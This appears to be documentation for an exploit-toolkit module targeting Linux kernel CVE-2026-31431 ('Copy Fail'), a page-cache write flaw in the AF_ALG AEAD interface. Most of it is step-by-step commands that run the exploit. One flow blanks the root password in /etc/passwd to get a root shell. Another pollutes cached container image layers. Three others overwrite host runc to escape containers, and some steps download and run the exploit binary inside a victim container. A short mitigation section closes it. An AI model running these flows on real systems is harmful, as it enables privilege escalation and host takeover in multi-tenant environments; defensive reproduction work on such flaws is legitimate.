

# Linux kernel CVE-2026-31431 Copy Fail

## 1. Vulnerability Overview

CVE-2026-31431, also known as Copy Fail, is a local privilege escalation vulnerability in the Linux kernel AF_ALG AEAD interface. The bug is reachable through the `algif_aead` userspace crypto API path and the `authencesn(hmac(sha256),cbc(aes))` AEAD template.

The exploit primitive writes 4 controlled bytes into the page cache of an existing readable file without opening that file writable. Since the page cache is shared across containers and the host, the same primitive can be used for local root escalation, container image pollution, and runc overwrite based container escape.

This ctrsploit module implements the Copy Fail write primitive and reuses the shared pipe-primitive exploit flows:

- `privilege-escalate`: modify `/etc/passwd` and invoke `su`.
- `image-pollution`: modify a file from a container image layer.
- `escape exec`: overwrite a target inside a running container and capture host runc on `docker exec`.
- `escape image`: generate a malicious image that captures and overwrites host runc.
- `escape restart`: prepare a running container and capture host runc on restart.

## 2. Exploit Scenario

A multi-tenant Linux host runs a vulnerable kernel and allows untrusted users or container workloads to execute code. When AF_ALG AEAD is available to those workloads, the shared page cache lets a local attacker affect files observed by the host, other containers, or cached image layers.

## 3. Prerequisites

Vulnerability existence:

1. Linux kernel contains the vulnerable `algif_aead` behavior. The currently implemented ctrsploit check treats these kernel version ranges as vulnerable:
   - `>= 4.14.0-0, < 6.18.22-0`
   - `>= 6.19.0-0, < 6.19.12-0`
   - `>= 6.20.0-0, < 7.0.0-0`
2. `AF_ALG` and the AEAD interface are available. Exploitation may fail if `algif_aead` is disabled or if seccomp/LSM policy blocks `AF_ALG` socket creation.
3. The attacker can execute local code on the host or inside a container.

## 4. Vulnerability Existence Check

```shell
ctrsploit checksec cve-2026-31431
ctrsploit vul 31431 c
ctrsploit vul copy-fail c
```


## 5. Reproduce

All destructive examples below should be run only in a disposable lab VM. In the dqd environment, "host" means the Docker host inside that VM. The runc overwrite flows intentionally replace the VM's host runc with a shell payload and can break the container runtime until the VM is rebuilt or runc is restored.

### 5.1 Reproduce Environment

```shell
$ git clone https://github.com/ctrsploit/dqd.git
$ cd dqd/vul/cve-2026-31431
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

Install ctrsploit:

```shell
root@cve-2026-31431:~# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@cve-2026-31431:~# chmod +x /usr/bin/ctrsploit
root@cve-2026-31431:~# ctrsploit vul 31431 c
```

### 5.2 Local Privilege Escalation


Run as a non-root local user:

```shell
root@cve-2026-31431:~# su -m -s /bin/sh nobody
$ ctrsploit vul 31431 x privilege-escalate
```

Alias:

```shell
$ ctrsploit vul copy-fail x p
```

Expected result: `/etc/passwd` is modified so the root password field is empty, then ctrsploit invokes `su` to obtain a root shell.

### 5.3 Image Pollution


The following example overwrites the beginning of `/etc/passwd` in the cached `busybox:latest` image layer from inside a container. A fresh container started from the same image observes the polluted content.

```shell
root@cve-2026-31431:~# docker run --rm -it busybox:latest /bin/sh
/ # URL=https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64
/ # wget -q --no-check-certificate $URL -O /tmp/ctrsploit
/ # chmod +x /tmp/ctrsploit
/ # printf copy-fail-image-pollution >/tmp/cfi
/ # /tmp/ctrsploit vul 31431 x image-pollution --source /tmp/cfi --destination /etc/passwd
/ # exit
root@cve-2026-31431:~# docker run --rm busybox:latest head -c 25 /etc/passwd
copy-fail-image-pollution
```

### 5.4 Container Escape by `docker exec`



The first `docker exec -it` below only enters the victim container so `ctrsploit` can be downloaded and the `escape exec` exploit can run inside that container. The later `docker exec copy-fail-victim /bin/sh` is the actual trigger that causes host runc to execute the overwritten `/bin/sh`.

```shell
root@cve-2026-31431:~# docker run -d --name copy-fail-victim busybox:latest tail -f /dev/null
root@cve-2026-31431:~# docker exec -it copy-fail-victim /bin/sh
/ # URL=https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64
/ # wget -q --no-check-certificate $URL -O /tmp/ctrsploit
/ # chmod +x /tmp/ctrsploit
/ # /tmp/ctrsploit vul 31431 x escape exec --cmd 'touch /escaped' --timeout 30s
```

```shell
root@cve-2026-31431:~# docker exec copy-fail-victim /bin/sh
root@cve-2026-31431:~# docker run --rm busybox:latest true
root@cve-2026-31431:~# ls -lah /escaped
```

`escape exec` first overwrites `/bin/sh` in the victim image as `#!/proc/self/exe`. The next `docker exec ... /bin/sh` captures host runc, overwrites it with the requested payload, and a later Docker command executes that payload on the host.

### 5.5 Container Escape by Generated Image

`start` mode captures runc start with a fake dynamic loader:


```shell
root@cve-2026-31431:~# ctrsploit vul 31431 x escape image \
  --dir poc-cve-2026-31431-start \
  --mode start \
  --cmd 'touch /escaped-image-start'
root@cve-2026-31431:~# docker build -t poc-cve-2026-31431-start poc-cve-2026-31431-start
root@cve-2026-31431:~# docker run --rm poc-cve-2026-31431-start
root@cve-2026-31431:~# ls -lah /escaped-image-start
```

`exec` mode captures runc exec through a generated `HEALTHCHECK`:


```shell
root@cve-2026-31431:~# ctrsploit vul 31431 x escape image \
  --dir poc-cve-2026-31431-exec \
  --mode exec \
  --cmd 'touch /escaped-image-exec'
root@cve-2026-31431:~# docker build -t poc-cve-2026-31431-exec poc-cve-2026-31431-exec
root@cve-2026-31431:~# docker run --rm poc-cve-2026-31431-exec
root@cve-2026-31431:~# ls -lah /escaped-image-exec
```

### 5.6 Container Escape by Restart


`escape restart` overwrites the victim's dynamic loader with a self-contained Copy Fail loader, then overwrites the running entrypoint as `#!/proc/self/exe` and tries configured restart triggers from `pkg/crash`. The default chain tries cgroup v2 `cgroup.kill`, `SIGKILL` for PID 1, and `kill-all`; `--restart-method all` also tries OOM. It does not require special placeholder files in the victim image or unusual signal traps in the victim process. After runc is overwritten, a later Docker command executes the payload on the VM host.

```shell
root@cve-2026-31431:~# docker run -d \
  --name copy-fail-restart-victim \
  --restart always \
  -v /usr/bin/ctrsploit:/ctrsploit:ro \
  ubuntu:22.04 \
  /bin/sh -c "while sleep 3600; do :; done"
root@cve-2026-31431:~# docker exec copy-fail-restart-victim \
  /ctrsploit vul 31431 x escape restart \
    --restart-method auto \
    --cmd 'touch /escaped-restart'
root@cve-2026-31431:~# docker run --rm busybox:latest true
root@cve-2026-31431:~# ls -lah /escaped-restart
```

The `docker run --rm busybox:latest true` trigger may fail after runc is overwritten; the proof file is the expected result.

## 6. E2E Test

```shell
make e2e DIR=vul/cve-2026-31431
```

The module currently has e2e coverage for:

- `cve-2026-31431-privilege-escalate`
- `cve-2026-31431-image-pollution`
- `cve-2026-31431-clean`
- `cve-2026-31431-escape-exec`
- `cve-2026-31431-escape-image-start`
- `cve-2026-31431-escape-image-exec`
- `cve-2026-31431-escape-restart`

## 7. Mitigation Notes

1. Upgrade to a kernel containing the vendor fix for CVE-2026-31431.
2. For untrusted workloads, block `AF_ALG` socket creation with seccomp or equivalent policy.
3. If compatible with the workload, disable the affected `algif_aead` module.
4. Treat containers that can create `AF_ALG` sockets on vulnerable kernels as able to affect host-visible page cache.
